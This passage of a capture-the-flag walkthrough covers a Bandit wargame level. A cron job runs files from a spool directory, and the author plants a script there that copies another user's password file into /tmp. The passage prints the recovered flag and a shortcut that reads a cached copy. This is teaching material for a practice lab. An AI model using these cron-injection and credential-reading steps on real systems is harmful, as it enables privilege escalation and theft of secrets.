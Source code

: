 ```bash

  cd /var/spool/$myname
  echo "Executing and deleting all scripts in /var/spool/$myname:"
  for i in * .*;
  do
      if [ "$i" != "." -a "$i" != ".." ];
      then
    echo "Handling $i"
    timeout -s 9 60 ./$i
    rm -f ./$i
      fi
  done

# We see there is a variable named "myname" given the output of the whoami command.
# We then change directory to /var/spool/$myname.
# We then execute and delete all files within the directory.

# In order to take advantage, we need to write a shell script and place it in /var/spool.
# First let's make a working directory in /tmp with any name we want.

bandit23@bandit:/etc/cron.d$ mkdir /tmp/Ignite123
bandit23@bandit:/etc/cron.d$ cd /tmp/Ignite123
bandit23@bandit:/tmp/Ignite123$ vi bandit24.sh
	#!/bin/bash
	cat /etc/bandit_pass/bandit24 >> /tmp/Ignite123/level24
	
# This script will cat the password for the next level into a file we made called "level24"
# REMEMBER: Ignite123 and level24 are arbitrary... it doesn't matter what they are called.

# Now let's give our shell script the proper permissions. (same with our directory)
# We will also copy it to the /var/spool directory
	
bandit23@bandit:/tmp/Ignite123$ chmod 777 bandit24.sh
bandit23@bandit:/tmp/Ignite123$ cp bandit24.sh /var/spool/bandit24/
bandit23@bandit:/tmp/Ignite123$ chmod 777 /tmp/Ignite123
bandit23@bandit:/tmp/Ignite123$ ls
bandit24.sh  level24
bandit23@bandit:/tmp/Ignite123$ cat level24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

> We can also run the below  commands to obtain the password. Much faster and more elegant, but defeats the purpose of the challenge.

```bash
echo I am user bandit24 | md5sum | cut -d ' ' -f 1
cat /tmp/ee4ee1703b083edac9f8183e4ae70293
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
ssh bandit24@localhost
```

#### Level 24 > Level 25
